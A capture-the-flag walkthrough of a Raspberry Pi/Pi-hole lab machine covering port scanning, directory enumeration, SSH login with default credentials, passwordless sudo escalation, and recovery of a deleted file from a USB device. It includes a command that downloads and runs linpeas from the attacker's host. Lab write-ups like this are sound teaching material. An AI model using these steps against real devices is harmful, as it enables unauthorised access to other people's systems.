Start by adding the machine IP to `/etc/hosts`. This avoids having to copy-paste the IP address on every command throughout the engagement.

```bash
nano /etc/hosts
```



---

## Reconnaissance

### Fast Service Scan

```bash
nmap -sC -sV -T4 -Pn mirai.htb
```



Port `22` (SSH), `53` (DNS), `80` (HTTP), and a few others are open. The HTTP service title is already blocked by Pi-hole an early hint about what's running on this machine.

### Full Port Scan

```bash
nmap -Pn --min-rate 10000 -sV -p- mirai.htb
```



Six ports total. Nothing beyond what the initial scan revealed. The interesting services remain SSH on 22 and HTTP on 80.

---

## Web Enumeration

Browsing to `http://mirai.htb` returns a **Pi-hole** block page rather than a normal web application.



[Pi-hole](https://pi-hole.net/) is an open-source DNS sinkhole commonly deployed on Raspberry Pi hardware to block ads and trackers at the network level. Seeing this immediately suggests the underlying OS is Raspbian and that the device is a Raspberry Pi a major clue for what comes later.

Running Gobuster against the hostname fails initially. Pi-hole's non-standard HTTP responses prevent Gobuster from reliably distinguishing real paths from non-existent ones.

```bash
gobuster dir -u http://mirai.htb -w /usr/share/wordlists/dirb/common.txt -t 30
```



Switching to the raw IP address resolves the issue.



The `/admin` directory is discovered. Navigating there reveals the Pi-hole admin dashboard fully accessible without authentication.



Clicking through to the login page exposes the running Pi-hole version: **v3.1.4**.



### Exploit Research

Searching for known vulnerabilities against Pi-hole v3.1.4 surfaces a few promising candidates, including authenticated remote code execution exploits:

- [CVE-2020-8816 Authenticated RCE](https://github.com/AndreyRainchik/CVE-2020-8816)
- [Exploit-DB #48442 RCE (Authenticated)](https://www.exploit-db.com/exploits/48442)

Both require valid credentials. Before attempting anything complex, the obvious first step is checking Pi-hole's well-known default credentials.



The Pi-hole community documentation confirms the default system login is `pi` / `raspberry`. Trying this against the web interface, however, fails.



At this point it becomes clear that the Pi-hole dashboard was already accessible without a password we were already viewing the `/admin` panel as an unauthenticated guest. The web interface is not the intended entry point. The real attack surface is the SSH service on port 22.

---

## Initial Access: Default SSH Credentials

Raspberry Pi OS ships with a well-known default account: username `pi` with password `raspberry`. Since the RCE exploits required authentication anyway, applying these same defaults directly to SSH is the logical next step.

```bash
ssh pi@mirai.htb
```



It works. We're logged in as `pi` on a Raspberry Pi running Raspbian exactly what the Mirai botnet exploited at massive scale in 2016.

---

## User Flag

The user flag is sitting on the Desktop. No binary exploitation or privilege escalation is needed to reach it.

```
/home/pi/Desktop/user.txt
```



Running `sudo -l` here reveals something critical: the `pi` user can execute **all commands** as root with **no password required** (`NOPASSWD: ALL`). Privilege escalation to root is completely trivial.

---

## Privilege Escalation

```bash
sudo su
```

We're root. But the root flag isn't where it should be.

```bash
root@raspberrypi:/home/pi/Desktop/Plex# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

---

## Root Flag Recovery: USB Forensics

The flag was deliberately deleted from a USB stick. This is where the box shifts from a straightforward credentials exercise into a brief but instructive forensics challenge.

### Step 1: Transfer linpeas for Enumeration

Serve `linpeas.sh` from the attacker machine and pull it down on the target.

```bash
# On attacker machine:
python -m http.server 3131

# On target:
curl http://10.10.14.79:3131/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```





Linpeas flags multiple critical CVEs for this kernel version. More relevant for our immediate goal, it surfaces mount and disk information that points toward the USB device.



### Step 2: Locate the USB Device

```bash
find / -name "usbstick"
```

[find command reference](https://www.tecmint.com/35-practical-examples-of-linux-find-command/)



The mount point `/media/usbstick` is confirmed. Inside is a note from James:

```
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

The files are gone at the filesystem level, but the raw data on the underlying block device may still be intact.

### Step 3: Identify the Raw Block Device

[fdisk utility reference](https://www.geeksforgeeks.org/linux-unix/fdisk-command-in-linux-with-examples/)

```bash
fdisk -l
```



```bash
lsblk
```

https://devconnected.com/how-to-list-disks-on-linux/



`lsblk` confirms that `/dev/sdb` is the 10 MB USB stick mounted at `/media/usbstick`. This is the device to target.

### Step 4:  Extract Deleted Data from the Raw Device

When a file is deleted from a filesystem, the filesystem metadata is removed but the underlying bytes are often left in place on the block device until they are overwritten. On a small, lightly-used device like a 10 MB USB stick, the chances of overwrite are low.

The `strings` command extracts all printable ASCII sequences from any binary source including raw disk images. It's a fast, zero-dependency way to recover plaintext content from an unstructured device.

[How to recover deleted files in Linux — Stack Overflow](https://stackoverflow.com/questions/9355081/how-to-recover-deleted-files-in-linux-filesystem-a-bit-faster)

```bash
/usr/bin/strings -a /dev/sdb
```

